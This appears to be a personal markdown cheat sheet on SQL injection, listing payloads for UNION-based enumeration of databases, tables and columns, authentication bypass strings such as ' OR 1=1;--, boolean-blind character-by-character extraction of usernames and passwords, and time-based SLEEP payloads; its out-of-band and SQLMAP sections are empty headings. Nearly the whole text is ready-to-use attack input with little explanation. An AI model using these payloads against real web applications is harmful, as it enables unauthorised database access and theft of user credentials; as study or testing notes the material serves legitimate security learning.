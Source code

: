 # SQLi

## Mapping in-band sqli

e.g. id=1 -> id=1' id=1" gets SQL error

```
1 UNION SELECT 1

1 UNION SELECT 1,2

1 UNION SELECT 1,2,3
```

repeat process until there is no longer an error

Retrieve database name

```
0 UNION SELECT 1,2,database()
```

Get tables

```
0 UNION SELECT 1,2,group_concat(table_name) FROM information_schema.tables WHERE table_schema = <db_name>
```

Get table structure

```
0 UNION SELECT 1,2,group_concat(column_name) FROM information_schema.columns WHERE table_name = <table_name>
```


```
0 UNION SELECT 1,2,group_concat(col1,':',col2 SEPARATOR '<br>') FROM table_name
```

## Authentication Bypass

' OR 1=1;--
' or 1=1 -- -

### When application anticipates only 1 row to be returned
' or 1=1 LIMIT 1; --

## Mapping Boolean Blind SQLi

In the context of checking if a username is taken in a signup form

e.g. admin123 user is not taken (false) we try to find true values

```
admin123' UNION SELECT 1;-- (false)

admin123' UNION SELECT 1,2,3;-- (true)

admin123' UNION SELECT 1,2,3 where database() like '%';-- (true)
```

# Iterate through characters to find database name

admin123' UNION SELECT 1,2,3 where database() like 'a%';-- (false)

admin123' UNION SELECT 1,2,3 where database() like 'b%';-- (true)

admin123' UNION SELECT 1,2,3 where database() like 'ba%';-- (true) 

# Iterate through to find table names

admin123' UNION SELECT 1,2,3 FROM information_schema.tables WHERE table_schema = 'bad' and table_name like 'a%';--

admin123' UNION SELECT 1,2,3 FROM information_schema.tables WHERE table_schema = 'bad' and table_name='users';--

# Then columns

admin123' UNION SELECT 1,2,3 FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='bad' and TABLE_NAME='users' and COLUMN_NAME like 'a%';

admin123' UNION SELECT 1,2,3 FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='bad' and TABLE_NAME='users' and COLUMN_NAME like 'a%' and COLUMN_NAME !='id';

# enumerate usernames

admin123' UNION SELECT 1,2,3 from users where username like 'a%

# then passwords
admin123' UNION SELECT 1,2,3 from users where username='admin' and password like 'a%

Mapping time-based blind sqli
----------------------------
Same as above but true|false is reflected in response times by successfully executing added sleep() function

admin123' UNION SELECT SLEEP(5);--

admin123' UNION SELECT SLEEP(5),2;--

referrer=admin123' UNION SELECT SLEEP(5),2 where database() like 'u%';--

Out-of-band SQLi
----------------


## SQLMAP syntax















 




